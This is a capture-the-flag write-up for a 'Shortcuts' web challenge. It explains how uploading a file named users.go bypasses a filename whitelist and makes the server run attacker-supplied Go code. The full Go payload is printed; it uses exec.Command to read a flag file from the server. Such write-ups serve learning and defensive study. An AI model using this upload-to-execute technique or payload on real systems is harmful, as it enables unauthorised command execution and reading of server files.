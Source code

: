 # Shortcuts (465pts) #

![TASK](https://imgur.com/eBGWBx5.png)

We are given a simple web app written in Golang where we have shortcuts for some commands executed on the server, after digging around we can notice that the server is returning the output of go run FILE.go ( by having a look at processes)
so if we upload our go script that executes any commands for us we can achieve a command execution :D But that's not the case if we try to upload any file it won't be executed , i think that there's a whitelist of the accepted filenames.

If we try to execute the users shortcuts we will get the error below , so if we upload a file named users.go and then click users, our script will be executed and we will bypass this whitelist 

![IMAGE](https://imgur.com/bjkx19l.png)

After uploading it :

![SUCCESS](https://imgur.com/Dzm006Q.png)

The content of **users.go** file :

```go

package main

import (
    "fmt"
    "os/exec"
)

func execute() {

    out, err := exec.Command("cat","/home/tom/flag.txt").Output()

    if err != nil {
        fmt.Printf("%s", err)
    }

    fmt.Println("Command Successfully Executed")
    output := string(out[:])
    fmt.Println(output)
}

func main() {
        execute()

}

```

If you have any questions you can DM on twitter @belkahlaahmed1 or visit my website for more interesting content and blogs https://ahmed-belkahla.me
